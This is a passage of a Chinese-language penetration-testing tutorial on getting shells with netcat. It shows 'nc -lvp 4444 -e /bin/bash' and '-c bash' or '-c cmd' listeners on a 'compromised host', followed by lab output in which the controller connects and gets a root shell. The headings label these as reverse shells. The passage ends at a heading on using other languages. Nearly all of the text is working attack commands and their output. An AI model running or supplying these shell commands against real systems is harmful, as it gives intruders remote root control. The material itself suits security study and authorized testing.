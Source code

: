 





```none
# 失陷主机
> nc -lvp 4444 -e /bin/bash
listening on [any] 4444 ...
172.16.214.1: inverse host lookup failed: Unknown host
connect to [172.16.214.43] from (UNKNOWN) [172.16.214.1] 60628

# 控制端
> nc -v 172.16.214.43 4444
Connection to 172.16.214.43 port 4444 [tcp/krb524] succeeded!
whoami
root
```

**-c 指定反弹 shell**







```none
# 失陷主机
nc -lvp lprot -c bash	# linux 主机
nc -lvp lport -c cmd 	# windows 主机

# 控制端
nc rhost rport
```







```none
# 失陷主机
> nc -lvp 4444 -c bash
listening on [any] 4444 ...
172.16.214.1: inverse host lookup failed: Unknown host
connect to [172.16.214.43] from (UNKNOWN) [172.16.214.1] 60635

# 控制端
> nc -v 172.16.214.43 4444
Connection to 172.16.214.43 port 4444 [tcp/krb524] succeeded!
whoami
root
```

**结合其他语言进行反弹 shell**






